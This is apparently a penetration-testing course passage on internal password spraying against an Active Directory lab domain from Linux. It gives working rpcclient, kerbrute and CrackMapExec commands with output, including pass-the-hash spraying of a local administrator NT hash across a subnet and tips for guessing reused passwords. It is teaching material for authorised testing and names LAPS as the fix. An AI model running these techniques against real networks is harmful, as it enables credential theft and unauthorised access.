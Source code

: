 

Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. 
* The following sections will let us practice Password Spraying from Linux and Windows hosts. 
* This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

---

## Internal Password Spraying from a Linux Host

Once we’ve created a wordlist using one of the methods shown in the previous section, it’s time to execute the attack. 
* `Rpcclient` is an excellent option for performing this attack from Linux. 
* An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. 
* We can filter out invalid login attempts by `grepping` for `Authority` in the response. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.

#### Using a Bash one-liner for the Attack

Internal Password Spraying - from Linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Let's try this out against the target environment.

Internal Password Spraying - from Linux

```shell-session
canklesmaks@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

We can also use `Kerbrute` for the same attack as discussed previously.

#### Using Kerbrute for the Attack

Internal Password Spraying - from Linux

```shell-session
canklesmaks@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

There are multiple other methods for performing password spraying from Linux. Another great option is using `CrackMapExec`. The ever-versatile tool accepts a text file of usernames to be run against a single password in a spraying attack. Here we grep for `+` to filter out logon failures and hone in on only valid login attempts to ensure we don't miss anything by scrolling through many lines of output.

#### Using CrackMapExec & Filtering Logon Failures

Internal Password Spraying - from Linux

```shell-session
canklesmaks@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting one (or more!) hits with our password spraying attack, we can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.

#### Validating the Credentials with CrackMapExec

Internal Password Spraying - from Linux

```shell-session
canklesmaks@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

---

## Local Administrator Password Reuse

Internal password spraying is not only possible with domain user accounts. 
* If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. 
* Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.

CrackMapExec is a handy tool for attempting this attack. 
* It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

When working with local administrator accounts, one consideration is password re-use or common password formats across accounts. 
* If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. Also, if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. 
* The same principle may apply to domain accounts. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. 
* This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. 
* In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. 
* In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine. 
* The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.

#### Local Admin Spraying with CrackMapExec

Internal Password Spraying - from Linux

```shell-session
canklesmaks@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

The output above shows that the credentials were valid as a local admin on `3` systems in the `172.16.5.0/23` subnet. We could then move to enumerate each system to see if we can find anything that will help further our access.

This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth. 
* It is always worth looking for this issue during penetration tests, even if it is not part of our path to compromise the domain, as it is a common issue and should be highlighted for our clients. 
* One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.